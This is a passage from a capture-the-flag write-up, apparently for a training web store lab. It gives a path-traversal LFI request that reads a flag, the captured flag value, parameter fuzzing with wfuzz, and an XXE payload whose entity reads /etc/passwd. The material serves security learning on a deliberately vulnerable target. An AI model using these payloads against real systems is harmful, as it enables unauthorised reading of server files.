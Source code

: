 - `curl http://nahamstore.thm/product/picture/?file=....//....//....//....//....//lfi/flag.txt`
	- Get the flag: `{7ef60e74b711f4c3a1fdf5a131ebf863}`
	![10lfi-4](imgs/10lfi-4.png)

---

## XXE (Task 10)

XXE 1: fuzzing parameters on api
- Go to `http://stock.nahamstore.thm/`
	- We see JSON data `{"server":"stock.nahamstore.thm","endpoints":[{"url":"\/product"}]}`
- Go to `http://stock.nahamstore.thm/product/1`
	- We see JSON data `{"id":1,"name":"Hoodie + Tee","stock":56}`
- `curl -X POST "http://stock.nahamstore.thm/product/1"`
	- `["Missing header X-Token"]`
- `curl --header "X-Token: xxxxxxx" -X POST "http://stock.nahamstore.thm/product/1"`
	- `["X-Token xxxxxxx is invalid"]`
- Fuzz to get some potential parameters: `wfuzz -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "http://stock.nahamstore.thm/product/1?FUZZ" --hw 3 -f wfuzz-xxe.log`
![11xxe1-1](imgs/11xxe1-1.png)

- `curl -X POST "http://stock.nahamstore.thm/product/1?xml"`
	```
	<?xml version="1.0"?>
	<data><error>Invalid XML supplied</error></data>
	```
- Ref: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe
	- Payload: `<?xml version="1.0"?><!DOCTYPE data [<!ENTITY read SYSTEM 'file:///etc/passwd'>]><data>&read;</data>`
- In burpsuite's repeater, POST the payload
	- But, we get the error message `X-Token not supplied`